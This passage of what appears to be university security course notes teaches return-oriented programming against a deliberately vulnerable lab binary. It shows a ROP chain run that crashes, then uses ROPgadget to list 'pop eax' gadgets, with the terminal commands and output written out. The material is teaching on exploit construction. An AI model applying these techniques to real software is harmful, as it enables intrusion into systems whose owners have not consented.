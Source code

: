 And if we test it to see if we get to the 0xcafebabe:

``` example
user@si485H-base:demo$ ./vulnerable `python rop_chain.py`
Buf: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAz`F?
?                                                                                                                       AAAA
Segmentation fault (core dumped)
user@si485H-base:demo$ dmesg | tail -1
[1555336.602578] vulnerable[10650]: segfault at 800a70d ip 0800a70d sp bffff630 error 14 in vulnerable[8048000+a1000]
```

Not again. This time it is 0x09 in the `mov [edx],eax; ret` instruction.
Seems like we need a better way because we can continue to explore for
these embedded gasgets, but thats a lot of work. Thankfully, there are
tools to make this a lot easier.

## Automated Gadget Hunting

Because it's a pain in the ass to find the ROP gadgets by hand, people
have developed automated tools for both finding gadgets and
automatically assembling exploits based on those gadgets. The one we'll
focus on today is
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget). You should
work to install it on your own virtual box system.

While ROPgadget does all sorts of cool things, we'll primarily use it to
find gadgets for us. Here's the most basic usage where I am just
seperating out the pop eax instructions:

``` example
user@si485H-base:demo$ ./ROPgadget.py --binary ./vulnerable | grep ": pop eax "
0x0808f020 : pop eax ; adc al, -0x7b ; sal byte ptr [edx + ecx + 0xffffffc1], cl ; retf
0x080a9926 : pop eax ; adc al, 0x39 ; ret
0x080e01f5 : pop eax ; add byte ptr [eax], al ; mov bh, dl ; clc ; jmp dword ptr [ebx]
0x0806c1b6 : pop eax ; add byte ptr [eax], al ; xor eax, eax ; leave ; ret
0x080e0e1c : pop eax ; add byte ptr fs:[eax], al ; add byte ptr [eax], -7 ; jmp edi
0x08054a15 : pop eax ; and al, -0x77 ; dec eax ; or al, 1 ; retf 0x5089
0x0808cf6d : pop eax ; and bl, ch ; ret -0x4b73
0x0805ae06 : pop eax ; je 0x805ae17 ; add esp, 0x68 ; pop ebx ; ret
0x0809d932 : pop eax ; jmp dword ptr [eax]
0x0809e5b3 : pop eax ; mov dword ptr [esp + 4], eax ; call 0x80ab047
0x0807b5c8 : pop eax ; mov eax, 0x77 ; int 0x80
0x080858e1 : pop eax ; mov eax, edx ; add esp, 0x1c ; ret
0x0805c84c : pop eax ; mov edi, eax ; mov esi, edx ; mov eax, dword ptr [esp + 4] ; ret
0x080539ce : pop eax ; or al, -0x77 ; push eax ; add al, -0x77 ; dec eax ; and al, 0x5b ; ret
0x080573eb : pop eax ; or al, 0x39 ; ret
0x0808b691 : pop eax ; or byte ptr [ebx + 0x89010442], al ; retf -0x1e7d
0x0808c521 : pop eax ; or byte ptr [ecx + 0x20488910], cl ; pop ebx ; ret
0x080e359d : pop eax ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret
0x080e5cff : pop eax ; or cl, byte ptr [esi] ; or al, 0x41 ; ret
0x08058169 : pop eax ; or dh, dh ; ret
0x0804a0cf : pop eax ; or dh, dh ; ret 0xfdf
0x0809e02a : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080e105d : pop eax ; push cs ; adc al, 0x41 ; ret
0x080bb746 : pop eax ; ret  <---
0x08071fba : pop eax ; ret 0x80e
0x080b0914 : pop eax ; retf
0x080554f9 : pop eax ; xor byte ptr [ebx + 0xffffff83], bl ; retf -0x7cfe
```
